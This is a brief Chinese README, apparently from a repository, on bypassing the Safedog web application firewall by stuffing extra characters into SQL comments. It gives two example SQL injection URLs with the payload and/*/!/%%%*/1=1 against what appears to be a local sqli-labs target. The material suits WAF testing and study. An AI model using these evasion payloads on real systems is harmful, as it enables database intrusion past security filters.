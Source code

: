 # bypass
安全狗bypass

sqlifuzz.txt 文件内容
主要是在注释符/**/ 中添加其他字符，用来绕过安全狗waf

使用 
```
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=1 -- - 
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=2 -- -
```
文章：

```
https://blog.csdn.net/qq_18193739/article/details/131993808
```
